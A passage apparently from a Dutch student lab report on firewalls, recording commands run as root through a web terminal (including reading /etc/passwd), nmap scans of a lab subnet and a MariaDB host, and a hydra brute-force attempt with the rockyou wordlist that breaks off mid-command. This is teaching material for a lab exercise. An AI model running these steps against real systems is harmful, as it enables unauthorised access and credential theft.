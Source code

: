 # Verslag labo 2 firewalls

Op het domein: http://www.cybersec.internal/cmd draait een terminal sessie.

Commandos die ik heb uitgevoerd met hun resultaten:

1. `id`
    - Resultaat: `uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0`
2. `uname -a`
    - Resultaat: `Linux web 5.14.0-570.12.1.el9_6.x86_64 #1 SMP PREEMPT_DYNAMIC Tue May 13 06:11:55 EDT 2025 x86_64 x86_64 x86_64 GNU/Linux`
3. `ls -la`
    - Resultaat: Lijst van bestanden en mappen in de huidige directory met gedetailleerde informatie.

```bash
total 28
dr-xr-xr-x.  19 root    root     250 Sep 26 13:45 .
dr-xr-xr-x.  19 root    root     250 Sep 26 13:45 ..
dr-xr-xr-x.   2 root    root       6 Oct  2  2024 afs
lrwxrwxrwx.   1 root    root       7 Oct  2  2024 bin -> usr/bin
dr-xr-xr-x.   5 root    root    4096 May 22 13:03 boot
drwxr-xr-x.  18 root    root    3120 Oct 14 10:38 dev
drwxr-xr-x. 102 root    root    8192 Oct 14 10:38 etc
drwxr-xr-x.   3 root    root      21 May 22 13:04 home
lrwxrwxrwx.   1 root    root       7 Oct  2  2024 lib -> usr/lib
lrwxrwxrwx.   1 root    root       9 Oct  2  2024 lib64 -> usr/lib64
drwxr-xr-x.   2 root    root       6 Oct  2  2024 media
drwxr-xr-x.   2 root    root       6 Oct  2  2024 mnt
drwxr-xr-x.   5 root    root      73 Sep 26 14:18 opt
dr-xr-xr-x. 196 root    root       0 Oct 14 10:38 proc
dr-xr-x---.   4 root    root     117 Sep 26 14:17 root
drwxr-xr-x.  28 root    root     900 Oct 14 10:38 run
lrwxrwxrwx.   1 root    root       8 Oct  2  2024 sbin -> usr/sbin
drwxr-xr-x.   2 root    root       6 Oct  2  2024 srv
dr-xr-xr-x.  13 root    root       0 Oct 14 10:38 sys
drwxrwxrwt.  12 root    root    4096 Oct 14 10:38 tmp
drwxr-xr-x.  12 root    root     144 May 22 13:01 usr
drwxrwxrwx.   1 vagrant vagrant 4096 Oct  6 12:37 vagrant
drwxr-xr-x.  20 root    root    4096 Sep 26 14:17 var
```

4. `cat /etc/passwd`
    - Resultaat: Lijst van gebruikersaccounts op het systeem.

```bash
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/:/usr/sbin/nologin
sssd:x:998:998:User for sssd:/:/sbin/nologin
chrony:x:997:997:chrony system user:/var/lib/chrony:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/usr/sbin/nologin
vagrant:x:1000:1000::/home/vagrant:/bin/bash
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
polkitd:x:996:995:User for polkitd:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
vboxadd:x:995:1::/var/run/vboxadd:/bin/false
rtkit:x:172:172:RealtimeKit:/:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
pipewire:x:994:992:PipeWire System Daemon:/run/pipewire:/usr/sbin/nologin
geoclue:x:993:991:User for geoclue:/var/lib/geoclue:/sbin/nologin
flatpak:x:992:990:Flatpak system helper:/:/usr/sbin/nologin
```

## Nmap default scan

Ik heb een nmap default scan uitgevoerd op alle machines in het netwerk met het commando:

```bash
[vagrant@web ~]$ nmap -v 172.30.0.0/24
Starting Nmap 7.92 ( https://nmap.org ) at 2025-10-14 11:21 UTC
Initiating Ping Scan at 11:21
Scanning 256 hosts [2 ports/host]
Completed Ping Scan at 11:21, 2.92s elapsed (256 total hosts)
Initiating Parallel DNS resolution of 4 hosts. at 11:21
Completed Parallel DNS resolution of 4 hosts. at 11:21, 0.00s elapsed
Nmap scan report for 172.30.0.0 [host down]
Nmap scan report for 172.30.0.1 [host down]
...
Nmap scan report for 172.30.0.255 [host down]
Initiating Connect Scan at 11:21
Scanning 4 hosts [1000 ports/host]
Discovered open port 22/tcp on 172.30.0.4
Discovered open port 22/tcp on 172.30.0.10
Discovered open port 111/tcp on 172.30.0.10
Discovered open port 22/tcp on 172.30.0.15
Discovered open port 22/tcp on 172.30.0.123
Discovered open port 53/tcp on 172.30.0.4
Discovered open port 80/tcp on 172.30.0.10
Discovered open port 3306/tcp on 172.30.0.15
Discovered open port 8000/tcp on 172.30.0.10
Completed Connect Scan against 172.30.0.10 in 0.42s (3 hosts left)
Completed Connect Scan against 172.30.0.15 in 0.42s (2 hosts left)
Completed Connect Scan against 172.30.0.4 in 0.43s (1 host left)
Completed Connect Scan at 11:21, 0.44s elapsed (4000 total ports)
Nmap scan report for 172.30.0.4
Host is up (0.0014s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain

Nmap scan report for 172.30.0.10
Host is up (0.0023s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
8000/tcp open  http-alt

Nmap scan report for 172.30.0.15
Host is up (0.0022s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql

Nmap scan report for 172.30.0.123
Host is up (0.0012s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh

Read data files from: /usr/bin/../share/nmap
Nmap done: 256 IP addresses (4 hosts up) scanned in 3.48 seconds
```

Scan op de database server:

```bash
[vagrant@web ~]$ nmap -sV -sC 172.30.0.15
Starting Nmap 7.92 ( https://nmap.org ) at 2025-10-14 11:33 UTC
Nmap scan report for 172.30.0.15
Host is up (0.00064s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.3 (protocol 2.0)
| ssh-hostkey: 
|   256 a6:f5:68:ed:ff:72:b1:c8:50:a0:62:ad:57:fa:08:2d (ECDSA)
|_  256 75:99:6b:07:14:ee:04:6b:20:a8:05:60:32:14:03:d8 (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.11.11-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.11-MariaDB
|   Thread ID: 6
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, Support41Auth, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, SupportsCompression, ConnectWithDatabase, SupportsLoadDataLocal, FoundRows, LongColumnFlag, InteractiveClient, ODBCClient, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: ib2qaq6W6F>D{]Cs=tPt
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.55 second
```

Er draait een MySQL 5.5.5-10.11.11-MariaDB server op de database server.

## Brute force van de database server

Try to search for a nmap script to brute-force the database. Another (even easier tool) is called hydra (https://github.com/vanhauser-thc/thc-hydra). Search online for a good wordlist. For example "rockyou" or https://github.com/danielmiessler/SecLists We suggest to try the default username of the database software and attack the database machine. Another interesting username worth a try is "toor".

Ik gebruikte het volgende commando:

```bash
[vagrant@web ~]$ hydra -L /usr/share/wordlists/nmap.lst -P /usr/share/wordlists/rockyou.txt -f -o /tmp/hydra_results.txt -u